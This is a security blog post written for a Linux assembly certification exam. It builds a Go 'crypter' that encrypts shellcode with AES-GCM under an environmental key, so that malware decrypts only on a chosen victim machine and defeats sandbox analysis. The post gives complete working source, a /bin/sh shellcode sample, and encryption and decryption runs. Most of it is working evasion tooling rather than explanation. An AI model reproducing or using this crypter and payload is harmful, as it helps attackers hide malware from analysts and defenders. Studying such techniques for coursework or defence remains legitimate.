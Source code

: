 
# Creating your own crypter using golang

In this article, we will build a simple crypter for encrypting and decrypting shellcode. I chose to implement the crypter in go using environmental keys.

## Encryption

The encryption/decryption process is using AES GCM and a specific file in `/etc/` concatenated with current user logged in as key. This is called *Environmental Keying*, meaning you use specific values found in the victim's environment such as files, hostname or users. The purpose of this is to make sure a given malware **only** executes in a given environment. This means the attacker needs to know details about the environment before encrypting any shellcode.

This also makes it difficult for any analysts trying to decrypt the shellcode. Because they would need the correct environment values in order to successfully decrypt the shellcode. Relying on dynamic analysis in a sandbox will is futile because of this reason.

The specific values that I have chosen for the key is the file path `/etc/vmware-tools/scripts/vmware/network` and current logged in user. The final key will look like this: `/etc/vmware-tools/scripts/vmware/networkdubs3c`.

The following example encrypts a simple shellcode that executes `/bin/sh`:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$ go run main.go -e -s "\xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde"
[+] Your encrypted shellcode: 5af9fb00a2147e12ba73c2686b1b25fac3f441ffcb6974b00ec7413208dc749dae128faf67a5db80fe868dc2386e30546409503beb9ea6973441dc0ace3b35563550e3041fdde2c234b7dbd36ce74f1653ac08ec3be1f6fac3dd6fc34b378477bf6a5acf7800d01ee1c9280d8f6e2ccb8b13f517e790cc6d6623df9b1ced1dc1ebd8df2caca412f6f9d8233bd233fd6c590b12211f0706fc18dca864e97908df4eb638c8b223afc57d59714db119a0075dc935a65a38b4fe175fc15ad2b03125303b98c991ac01238f61c10f444bd85ad081fe2d097f816345e2ab98436cae10033c1cd870502608eac6a3149688b992
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$
```

## Decryption

The decryption process will loop over all files and folders in `/etc/` and try to use each file path as the key together with the username. When the correct key is found, the shellcode is decrypted.

Decrypting shellcode:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$ go run main.go -d -s "5af9fb00a2147e12ba73c2686b1b25fac3f441ffcb6974b00ec7413208dc749dae128faf67a5db80fe868dc2386e30546409503beb9ea6973441dc0ace3b35563550e3041fdde2c234b7dbd36ce74f1653ac08ec3be1f6fac3dd6fc34b378477bf6a5acf7800d01ee1c9280d8f6e2ccb8b13f517e790cc6d6623df9b1ced1dc1ebd8df2caca412f6f9d8233bd233fd6c590b12211f0706fc18dca864e97908df4eb638c8b223afc57d59714db119a0075dc935a65a38b4fe175fc15ad2b03125303b98c991ac01238f61c10f444bd85ad081fe2d097f816345e2ab98436cae10033c1cd870502608eac6a3149688b992"
[+] Decrypted shellcode: \xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$
```

## Final code

Below is the final program for encrypting/decrypting shellcode.

```go
package main

import (
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "crypto/sha256"
    "encoding/hex"
    "flag"
    "fmt"
    "io"
    "os"
    "os/user"
    "path/filepath"
)

type cliOptions struct {
    encrypt   bool
    decrypt   bool
    shellcode string
}

func processArgs() cliOptions {
    opts := cliOptions{}
    flag.BoolVar(&opts.decrypt, "decrypt", false, "Decrypt your shellcode")
    flag.BoolVar(&opts.decrypt, "d", false, "Decrypt your shellcode")
    flag.BoolVar(&opts.encrypt, "encrypt", false, "Encrypt your shellcode")
    flag.BoolVar(&opts.encrypt, "e", false, "Encrypt your shellcode")
    flag.StringVar(&opts.shellcode, "shellcode", "", "Your shellcode")
    flag.StringVar(&opts.shellcode, "s", "", "Your shellcode")
    flag.Parse()

    return opts
}

func init() {
    flag.Usage = func() {
        h := "\nEncrypt your shellcode! Very nice! Made by @dubs3c.\n\n"

        h += "Usage:\n"
        h += "  cyrptoBoot [shellcode] [options]\n\n"

        h += "Options:\n"
        h += "  -e,  --encrypt      Encrypt shellcode\n"
        h += "  -d,  --decrypt      Decrypt shellcode\n"
        h += "  -s,  --shellcode    Shellcode\n"
        h += "  -v,  --version      Show version\n"

        h += "\nExamples:\n"
        h += "  cryptoBoot -e -s \"<shellcode>\"\n"
        h += "  cryptoBoot -d -s \"<shellcode>\"\n"

        fmt.Fprintf(os.Stderr, h)
    }
}

func encrypt(shellcode string, envKey []byte) (encryptedShellcode []byte, err error) {
    plaintext := []byte(shellcode)

    block, err := aes.NewCipher(envKey)
    if err != nil {
        panic(err.Error())
    }

    // Never use more than 2^32 random nonces with a given key because of the risk of a repeat.
    nonce := make([]byte, 12)
    if _, err := io.ReadFull(rand.Reader, nonce); err != nil {
        panic(err.Error())
    }

    aesgcm, err := cipher.NewGCM(block)
    if err != nil {
        panic(err.Error())
    }

    ciphertext := aesgcm.Seal(nil, nonce, plaintext, nil)
    ciphertextWithNonce := append(nonce, ciphertext...)
    encodedCiphertext := make([]byte, hex.EncodedLen(len(ciphertextWithNonce)))
    hex.Encode(encodedCiphertext, ciphertextWithNonce)
    return encodedCiphertext, nil
}

func decrypt(ciphertext string, envKey []byte) (plaintext []byte, err error) {
    ciphertxt, _ := hex.DecodeString(ciphertext[24:])
    nonce, _ := hex.DecodeString(ciphertext[:24])

    block, err := aes.NewCipher(envKey)
    if err != nil {
        return []byte{}, err
    }

    aesgcm, err := cipher.NewGCM(block)
    if err != nil {
        return []byte{}, err
    }

    plaintxt, err := aesgcm.Open(nil, nonce, ciphertxt, nil)
    if err != nil {
        return []byte{}, err
    }

    return plaintxt, nil
}

func main() {

    if len(os.Args) <= 1 {
        flag.Usage()
        os.Exit(0)
    }

    opts := processArgs()

    currentUser := &user.User{}
    currentUser, err := user.Current()
    envPath := "/etc/vmware-tools/scripts/vmware/network"
    envKey := sha256.Sum256([]byte(envPath + currentUser.Username))

    if opts.encrypt {
        if opts.shellcode == "" {
            fmt.Println("[-] Please specify your shellcode")
            os.Exit(1)
        }

        ciphertext, err := encrypt(opts.shellcode, envKey[:])
        if err != nil {
            fmt.Println("[-] Something went wrong encrypting your shellcode. Error: ", err)
            os.Exit(1)
        }

        fmt.Printf("[+] Your encrypted shellcode: %s\n", ciphertext)
        return
    }

    if opts.decrypt {

        if opts.shellcode == "" {
            fmt.Println("[-] Please specify your encrypted shellcode")
            os.Exit(1)
        }

        encryptedShellcode := opts.shellcode

        err = filepath.Walk("/etc/", func(path string, info os.FileInfo, err error) error {
            envKey := sha256.Sum256([]byte(path + currentUser.Username))
            plaintext, err := decrypt(encryptedShellcode, envKey[:])
            if err != nil {
                // Disregard errors
                return nil
            } else {
                fmt.Printf("[+] Decrypted shellcode: %s\n", plaintext)
            }
            return nil
        })

        if err != nil {
            fmt.Printf("error walking the path %q: %v\n", "/etc/", err)
            return
        }
    }
}

```

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490
